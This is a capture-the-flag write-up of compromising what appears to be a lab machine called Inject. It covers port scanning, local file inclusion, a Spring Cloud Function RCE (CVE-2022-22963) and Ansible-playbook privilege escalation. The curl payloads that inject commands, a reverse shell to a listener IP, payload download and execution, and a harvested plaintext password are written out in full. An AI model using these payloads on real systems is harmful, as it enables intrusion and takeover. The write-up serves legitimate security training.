## RUSTSCAN:
`PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDKZNtFBY2xMX8oDH/EtIMngGHpVX5fyuJLp9ig7NIC9XooaPtK60FoxOLcRr4iccW/9L2GWpp6kT777UzcKtYoijOCtctNClc6tG1hvohEAyXeNunG7GN+Lftc8eb4C6DooZY7oSeO++PgK5oRi3/tg+FSFSi6UZCsjci1NRj/0ywqzl/ytMzq5YoGfzRzIN3HYdFF8RHoW8qs8vcPsEMsbdsy1aGRbslKA2l1qmejyU9cukyGkFjYZsyVj1hEPn9V/uVafdgzNOvopQlg/yozTzN+LZ2rJO7/CCK3cjchnnPZZfeck85k5sw1G5uVGq38qcusfIfCnZlsn2FZzP2BXo5VEoO2IIRudCgJWTzb8urJ6JAWc1h0r6cUlxGdOvSSQQO6Yz1MhN9omUD9r4A5ag4cbI09c1KOnjzIM8hAWlwUDOKlaohgPtSbnZoGuyyHV/oyZu+/1w4HJWJy6urA43u1PFTonOyMkzJZihWNnkHhqrjeVsHTywFPUmTODb8=
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIUJSpBOORoHb6HHQkePUztvh85c2F5k5zMDp+hjFhD8VRC2uKJni1FLYkxVPc/yY3Km7Sg1GzTyoGUxvy+EIsg=
|   256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICZzUvDL0INOklR7AH+iFw+uX+nkJtcw7V+1AsMO9P7p
8080/tcp open  nagios-nsca syn-ack ttl 63 Nagios NSCA
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Home
|_http-open-proxy: Proxy might be redirecting requests
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
`

So far we found only 2 open services SSH and HTTP listening on port 8080 so let's move forward with specific enumeration.
* * *
## SSH:
So far the SSH service is served by a pretty much a new OpenSSH version which doesn't seem having a known exploit in the wild and I don't think either is the indended way by the machine creator.
We could do a SSH bruteforce but again is most likely not the intended way and we would overload the machine.
* * *
## Port 8080:
So far loggin in manually seems like we are presented towards a website called "ZODD cloud?"


I suggest the first step would be to manually map the whole sitemap in Burpsuite by playing around with website functions and modules.

If we try to register manually a new user we see that website is still WIP and function is not avavilable:

And Login is not available as well. So far we mapped all the website sitemap but nothing seems coming out from an inital analyze:


I suggest to try to see if we can find any interesting subdomain with FFUF:


On nothing interesting but what about a manual Webdirectories fuzzzing with Dirsearch:


Checking in the /blog section we have several articles and from them we can see some comments that unfortunaletly are just static and some authors like Admin and Brandon Auger that can maybe be possible users?
**Possible users:**
- admin
- Brandon Auger

Wappalizer doesn't show that much as used technologies except youtube and Bootstrap:


Going back to manual enumeration i've missed a /upload directory that apparently let's you upload some kind of files?
Let's try to play and map the traffic with Burpsuite:



Ok seems like only images are allowed so let's try to upload a dummy image:

Good the image got uploaded and we have a link that we can use to see image:


Appart from the error HTTP 500 i'm wondering if is suceptible to LFI? 


Seems like yes, and we can see that there are 3 users, frank, phil and root.
What can we read more?
We couldn't read neither cmdline nor environ but seems like we can list folders?

Ok we know that user.txt is in Phil's home folder but we can't read it.
We can list the folder structure with it:

We can check further the content of the WebApp directory that is hosting the ZODD Cloud website configuration files:


Surfing manually thru all the files contained into /WebApp we can find the source code of the /upload function that is checking that file need to be jpg:


So far i checked all the files but didn't noticed anything so i checked for some tips and apparently in the file pom.xml is poiting to all the technologies used by the java webapp:
`HTTP/1.1 200 
Accept-Ranges: bytes
Content-Type: image/jpeg
Content-Length: 2187
Date: Sun, 12 Mar 2023 12:59:59 GMT
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
	</parent>
	<groupId>com.example</groupId>
	<artifactId>WebApp</artifactId>
	<version>0.0.1-SNAPSHOT</version>
	<name>WebApp</name>
	<description>Demo project for Spring Boot</description>
	<properties>
		<java.version>11</java.version>
	</properties>
	<dependencies>
		<dependency>
  			<groupId>com.sun.activation</groupId>
  			<artifactId>javax.activation</artifactId>
  			<version>1.2.0</version>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-thymeleaf</artifactId>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-web</artifactId>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-devtools</artifactId>
			<scope>runtime</scope>
			<optional>true</optional>
		</dependency>

		<dependency>
			<groupId>org.springframework.cloud</groupId>
			<artifactId>spring-cloud-function-web</artifactId>
			<version>3.2.2</version>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-test</artifactId>
			<scope>test</scope>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>bootstrap</artifactId>
			<version>5.1.3</version>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>webjars-locator-core</artifactId>
		</dependency>

	</dependencies>
	<build>
		<plugins>
			<plugin>
				<groupId>org.springframework.boot</groupId>
				<artifactId>spring-boot-maven-plugin</artifactId>
				<version>${parent.version}</version>
			</plugin>
		</plugins>
		<finalName>spring-webapp</finalName>
	</build>

</project>
`

What is important here is that Springframework Cloud poiting to version 5.2.2. and referring to this CVE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22963

Can help up gain RCE: https://github.com/me2nuk/CVE-2022-22963
Launching the command from our machine should create a pwned file in /tmo directory on the machine:
`curl -X POST  http://inject.htb:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")' --data-raw 'data' -v`

And seems like is failing cause is already there, someone must have created the file before me:


But if this teori works we could ship a revshell so we can get RCE:
`curl -X POST  http://inject.htb:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("/bin/sh -i >& /dev/tcp/10.10.14.9/5555 0>&1")' --data-raw 'data' -v`

Setting up a NC listener in our machine and then running again the command should spawn us a RCE in NC. Edit: all the commands i run failed which can be the reason that a RCE can't be invoked directly from the curl, but maybe i can plant a sh shell and then execute it in second time.... Let's try first to create a MSFVenom exploit:


let's setup a listener in Metasploit framework with Multi/handler:


Let's spin-up a HTTP server via Python3 and download first download the file to /tmp folder:
`curl -X POST  http://inject.htb:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("wget http://10.10.14.9:9000/yovecio.elf -o /tmp/yovecio.elf")' --data-raw 'data' -v`


Now that we know file is in /tmp we can try to execute it on the same way and try to get a shell in Metasploit meterpreter:
`curl -X POST  http://inject.htb:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash -c /tmp/yovecio.elf")' --data-raw 'data' -v`

Seems not working, we can try to add executable permisisons:


Edit: tried but is not working so seems like metepereter shell is not working, we can use instead a code from Revshells.com
And after serveral tried i got RCE:

By using this code:
`┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# cat yovecio.sh 
 #!/bin/bash
/bin/sh -i >& /dev/tcp/10.10.14.9/7890 0>&1
`

At first login we are presented as frank and we need to privescalate first to phil to get the user txt and we as Root.
* * *
## USER.txt
Easiest will be to upload Winpeas and go thru all we find:
`╔══════════╣ Unexpected in /opt (usually empty)
total 12
drwxr-xr-x  3 root root 4096 Oct 20 04:23 .
drwxr-xr-x 18 root root 4096 Feb  1 18:38 ..
drwxr-xr-x  3 root root 4096 Oct 20 04:23 automation
╔══════════╣ Executable files potentially added by user (limit 70)
2023-02-01+18:56:55.9583168900 /usr/local/sbin/laurel
2023-01-30+14:41:13.9270845020 /usr/local/bin/ansible-parallel
2022-04-08+08:30:24.8239423570 /etc/console-setup/cached_setup_terminal.sh
2022-04-08+08:30:24.8239423570 /etc/console-setup/cached_setup_keyboard.sh
2022-04-08+08:30:24.8239423570 /etc/console-setup/cached_setup_font.sh
╔══════════╣ Searching root files in home dirs (limit 30)
/home/
/home/phil/.bash_history
/home/phil/user.txt
/home/frank/.bash_history
/home/frank/.m2/settings.xml
/root/
`

Then I tried to check manually for files and under that .m2 folder in franks home directory found phils credentials:
`frank@inject:~/.m2$ cat settings.xml
cat settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
 <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
`

But seems like we can't ssh directly:


But chanhing user from internally works just fine:


And we can grab the first file.
* * *
## ROOT.txt:
At first glance phil can't do any sudo:


Can we run again linpeas.sh but this time as phil and check what can we find more?
`User & Groups: uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
`
he is part of a staff group, and so far nothing new here compared to frank, I think we have to check that /opt folder:
`╔══════════╣ Modified interesting files in the last 5mins (limit 100)
/tmp/hsperfdata_frank/820
/opt/automation/tasks/playbook_1.yml
/var/log/syslog
`

So far we know is owned by user root and group staff(which phil is in as well):

We have an asnible playbook that we can't edit cause only root can do:


But on the tasks folder we can write our playbook right?
I found this from forum: https://rioasmara.com/2022/03/21/ansible-playbook-weaponization/

basically we can write our own revshell and then use ansible-parallel to call several playbooks...
Uploading a pspy copy and running it we can see that an scheduled task runs those playboooks in /opt/automation/tasks:

`2023/03/12 15:12:28 CMD: UID=0    PID=10     | 
2023/03/12 15:12:28 CMD: UID=0    PID=1      | /sbin/init auto automatic-ubiquity noprompt 
2023/03/12 15:14:01 CMD: UID=0    PID=35955  | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml 
2023/03/12 15:14:01 CMD: UID=0    PID=35954  | /usr/sbin/CRON -f 
2023/03/12 15:14:01 CMD: UID=0    PID=35953  | /usr/sbin/CRON -f 
2023/03/12 15:14:01 CMD: UID=0    PID=35952  | /usr/sbin/CRON -f 
2023/03/12 15:14:01 CMD: UID=0    PID=35956  | /usr/bin/python3 /usr/local/bin/ansible-parallel /opt/automation/tasks/playbook_1.yml 
2023/03/12 15:14:01 CMD: UID=0    PID=35957  | 
`

Now I create a playbook called playbook_2.yml on my machine with this code:


i upload it and wait to be executed:


Now we wait for the automatic task we've seen in PSPY to get run thru and then we should be able to exploi the bash SUID permission with:


And baam we can read the root flag:

* * *